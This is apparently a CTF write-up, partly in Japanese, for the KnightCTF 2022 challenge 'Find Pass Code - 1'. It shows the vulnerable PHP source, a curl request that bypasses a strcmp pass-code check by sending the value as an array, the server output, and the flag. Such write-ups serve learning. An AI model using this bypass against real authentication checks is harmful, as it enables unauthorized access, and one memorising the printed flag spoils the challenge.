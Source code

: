 # Find Pass Code - 1

## description

50

Flag Format : KCTF{something_here}

Note : Burte Force/Fuzzing not required and not allowed.

Author: NomanProdhan

## writeup

```html
<!-- Hi Serafin, I learned something new today. 
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param
-->
```

`source param`ということで`/?param`と打ち込むと、phpのコードが現れました。

```php
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0 ) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}
?>
```
`pass_code`に値を入力し、`strcmp`でflagと一致した時にフラグが出力されるという処理でした。flagの中身はわからないので、strcmpを通過するような入力を考えます。ここで、pass_codeを空文字かnullになるような入力を与えたら通過すると判断し(php詳しくないので、実際は正しくないかもしれません。)、`pass_code[]=`としました。([参考](https://www.php.net/manual/ja/types.comparisons.php))

```bash
curl -X POST -d "pass_code[]=" https://find-pass-code-one.kshackzone.com/ | grep CTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3002    0  2990  100    12   4314     17 --:--:-- --:--:-- --:--:--  4325
KCTF Flag : KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}<html>
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param
```

## FLAG

```txt
KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}
```

## 参考

- [PHP 型の比較表](https://www.php.net/manual/ja/types.comparisons.php)
- [Type Juggling Magic: Why PHP thinks 0 and "password" are the same [Capture The Flag Fundamentals]](https://youtu.be/-1kftH6t5VA)
